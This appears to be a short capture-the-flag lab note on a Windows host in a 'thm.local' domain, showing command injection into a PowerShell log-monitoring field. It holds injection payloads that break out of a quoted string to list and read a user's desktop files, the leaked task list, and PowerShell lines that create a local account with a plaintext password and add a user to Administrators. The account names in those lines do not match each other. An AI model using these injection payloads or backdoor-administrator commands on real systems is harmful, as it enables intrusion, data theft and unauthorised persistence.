 /test/

payload: BitlockerActiveMonitoringLogs') ; dir c:\Users\dev\Desktop\ #(\'`


```
BitlockerActiveMonitoringLogs') ; type c:\Users\dev\Desktop\TODO.txt #(\'`

Unable to find an entry point named 'GetUserNameEx' in DLL 'secur32.dll'.
Attempting to perform the Start operation on the 'Alias' provider failed. Could not load file or assembly 'System.Transactions.dll' or one of its dependencies. The paging file is too small for this operation to complete. (Exception from HRESULT: 0x800705AF)
One or more errors occurred.cd 
-------------------------------
List generated at 1:10:37 PM.
Hey dev team,

This is the tasks list for the deadline:

Promote Server to Domain Controller [DONE]
Setup Microsoft Exchange [DONE]
Setup IIS [DONE]
Remove the log analyzer[TO BE DONE]
Add all the users from the infra department [TO BE DONE]
Install the Security Update for MS Exchange [TO BE DONE]
Setup LAPS [TO BE DONE]


When you are done with the tasks please send an email to:

joe@thm.local
carol@thm.local
and do not forget to put in CC the infra team!
dev-infrastracture-team@thm.local
```

$PASSWORD= ConvertTo-SecureString -AsPlainText -Force -String KAMISAMA123@@
New-LocalUser -Name "testadmin" -Description "New local administrator account" -Password $PASSWORD
Add-LocalGroupMember -Group "Administrators" -Member "techadmin"